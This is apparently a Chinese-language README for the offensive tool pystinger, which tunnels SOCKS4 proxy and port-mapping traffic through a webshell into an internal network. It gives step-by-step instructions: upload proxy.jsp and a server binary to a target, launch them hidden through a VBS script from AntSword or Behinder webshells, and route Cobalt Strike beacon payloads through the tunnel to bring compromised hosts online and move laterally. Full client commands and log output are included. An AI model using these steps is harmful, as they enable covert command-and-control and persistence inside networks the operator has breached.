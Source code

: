 # 毒刺(pystinger_for_darkshadow)
毒刺(pystinger_for_darkshadow)是一个通过webshell实现**内网SOCK4代理**,**端口映射**.工具主体使用python开发,当前支持php,jsp(x),aspx三种代理脚本.
# 使用方法

## SOCK4代理
* proxy.jsp上传到目标服务器,确保 [http://192.168.3.11:8080/proxy.jsp](http://192.168.3.11:8080/proxy.jsp)可以访问,页面返回 stinger XXX!
* 将stinger_server.exe和stinger_server.vbs上传到目标服务器,蚁剑/冰蝎执行```stinger_server.vbs```启动服务端
(修改vbs中路径,不要直接运行exe文件,会导致tcp断连)
* stinger_client命令行执行```./stinger_client -w http://192.168.3.11:8080/proxy.jsp -l 0.0.0.0 -p 60000```,生成如下输出表示成功
```
root@kali:~# ./stinger_client -w http://192.168.3.11:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://192.168.3.11:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept

```
* 此时已经在本地60000启动了一个192.168.3.11所在内网的socks4代理

## cobalt strike单主机上线
* proxy.jsp上传到目标服务器,确保 [http://192.168.3.11:8080/proxy.jsp](http://192.168.3.11:8080/proxy.jsp)可以访问,页面返回 stinger XXX!
* 将stinger_server.exe和stinger_server.vbs上传到目标服务器,蚁剑/冰蝎执行```stinger_server.vbs```启动服务端
(修改vbs中路径,不要直接运行exe文件,会导致tcp断连)
* stinger_client命令行执行```./stinger_client -w http://192.168.3.11:8080/proxy.jsp -l 0.0.0.0 -p 60000```,生成如下输出表示成功
```
root@kali:~# ./stinger_client -w http://192.168.3.11:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://192.168.3.11:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* cobalt strike添加监听,端口选择RAT Config中的Handler/LISTEN中的端口(通常为60020),beacons为127.0.0.1
* 生成payload,上传到主机运行后即可上线

## cobalt strike多主机上线
* proxy.jsp上传到目标服务器,确保 [http://192.168.3.11:8080/proxy.jsp](http://192.168.3.11:8080/proxy.jsp)可以访问,页面返回 stinger XXX!
* 将stinger_server.exe上传到目标服务器
* 修改stinger_server.vbs,示例如下:
```
Set ws = CreateObject("Wscript.Shell")
ws.run "cmd /c D:\XXXXX\stinger_server.exe 192.168.3.11",vbhide
```
(192.168.3.11可以改成0.0.0.0)
*蚁剑/冰蝎执行```stinger_server.vbs```启动服务端
* stinger_client命令行执行```./stinger_client -w http://192.168.3.11:8080/proxy.jsp -l 0.0.0.0 -p 60000```,生成如下输出表示成功
```
root@kali:~# ./stinger_client -w http://192.168.3.11:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://192.168.3.11:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 192.168.3.11:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* cobalt strike添加监听,端口选择RAT Config中的Handler/LISTEN中的端口(通常为60020),beacons为192.168.3.11
* 生成payload,上传到主机运行后即可上线
* 横向移动到其他主机时可以将payload指向192.168.3.11:60020即可实现出网上线


# 相关工具
[https://github.com/nccgroup/ABPTTS](https://github.com/nccgroup/ABPTTS)

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

[https://github.com/SECFORCE/Tunna](https://github.com/SECFORCE/Tunna)

# 已测试
## stinger_server\stinger_client
* windows 
* linux
## proxy.jsp(x)/php/aspx
* php7.2 
* tomcat7.0 
* iis8.0

# 更新日志
**2.0**
更新时间: 2019-09-29
* 将socks4代理服务移动到客户端
* 不再支持端口转发功能

**2.1**
更新时间: 2020-01-07
* 支持CS上线功能(即端口映射功能)

